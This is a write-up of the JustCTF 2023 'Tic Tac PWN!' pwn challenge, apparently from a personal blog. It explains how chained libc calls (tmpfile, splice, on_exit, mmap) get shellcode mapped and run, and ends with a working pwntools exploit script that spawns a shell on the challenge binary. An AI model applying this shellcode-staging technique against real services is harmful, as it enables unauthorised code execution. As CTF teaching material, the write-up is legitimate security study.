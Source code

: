 ```yaml
---
title: "[JustCTF-2023] Tic Tac PWN!"
date: 2023-05-31 20:56:00
tags: 
layout: default
---
```

# 0x00 Prologue
I didn't solve this challenge, this is an after game reproducing write-up.

The solution is from my teammates @in1t.

# 0x01 Challenge
- We are allowed to execute arbitrary libc functions (not starting with `_`)
- All parameters only have 4 bytes
- There is a check function to check if we have allocated memory less than 0x100000000. 

# 0x02 on_exit

Can we register more than one function by using `on_exit`?
I wrote a demo and got the answer: 

```c
#include <stdio.h>
int func1(){
    puts("1");
}
int func2(){
    puts("2");
}
int main(){
on_exit(func1);
on_exit(func2);
}
```
The result of the above code is `2\n1\n` which means we can register multiple functions and the execution order is "FILO".


# 0x03 Solution

Ideas:
- Even if we `exit` because of the function exit, we can still use `on_exit` to register a function before `_exit`
- so the last part of our exploit script should be `call(on_exit)+call(mmap)`
- Before creating the memory, we can't prepare our shellcode on it, but we can map a file to memory

Solution:
- call `tmpfile` to create an fd
- call `splice` to write our shellcode to the fd
- call `on_exit` to register a function before `_exit`
- call `mmap` to map the tmpfile to memory

# 0x04 Expoit
```py
from pwn import *
context.log_level='debug'
context.arch='amd64'
context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']

p = process(["./rpc_server"], env={'LD_PRELOAD':'./rpc_tictactoe.so'})
ru      = lambda a:     p.readuntil(a)
def call(func,arg1=0,arg2=0,arg3=0,arg4=0,arg5=0,arg6=0):
    p.sendline(f'x:{func} '.encode())
    p.sendline(f'{arg1} {arg2} {arg3} {arg4} {arg5} {arg6}'.encode())
sh = asm(shellcraft.sh())
call("tmpfile")
ru("RPC\n")
call("splice",0,0,3,0,len(sh),0)
p.send(sh)
ru("RPC\n")
call("on_exit",0x10000,0)
ru("RPC\n")
call("mmap",0x10000,0x1000,7,0x1,3,0)
ru("RPC\n")
p.interactive()
```

# 0x05 Epilogue

I learned some interesting functions: `tmpfile`, `splice`, and `on_exit`.
All parameters of them are less than 4 bytes, we can use them when the registers are limited.


# 0x06 Reference
tmpfile: https://man7.org/linux/man-pages/man3/tmpfile.3.html

splice: https://man7.org/linux/man-pages/man2/splice.2.html

on_exit: https://man7.org/linux/man-pages/man3/on_exit.3.html

mmap: https://man7.org/linux/man-pages/man2/mmap.2.html
